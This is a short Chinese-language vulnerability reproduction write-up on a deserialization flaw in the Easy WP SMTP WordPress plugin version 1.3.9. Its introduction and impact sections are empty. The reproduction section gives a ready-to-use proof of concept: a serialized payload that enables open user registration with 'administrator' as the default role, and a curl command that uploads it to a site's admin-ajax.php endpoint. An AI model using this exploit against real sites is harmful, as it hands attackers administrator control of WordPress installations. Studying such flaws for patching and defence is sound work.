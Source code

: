 # WordPress Plugin - Easy WP SMTP 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3242](https://www.zhihuifly.com/t/topic/3242)

# WordPress Plugin - Easy WP SMTP 反序列化漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

我们首先搭建一个wordpress站点，安装v1.3.9版本的Easy WP SMTP，并进行相关配置。

在以下概念验证中，我将用于swpsmtp_import_settings上传一个文件，该文件包含恶意的序列化有效负载，该负载将使用户能够注册（users_can_register）并将用户默认角色（default_role）设置为数据库中的“管理员”。

1.创建一个文件名“ /tmp/upload.txt”，并添加以下内容：

```
a:2:{s:4:"data";s:81:"a:2:{s:18:"users_can_register";s:1:"1";s:12:"default_role";s:13:"administrator";}";s:8:"checksum";s:32:"3ce5fb6d7b1dbd6252f4b5b3526650c8";} 
```

2.上传文件

```
$ curl https://0-sec.org/wp-admin/admin-ajax.php -F 'action=swpsmtp_clear_log' -F 'swpsmtp_import_settings=1' -F 'swpsmtp_import_settings_file=@/tmp/upload.txt' 
```

![image](img/b1822b5fa492820e2296e5ce0881fc64.png)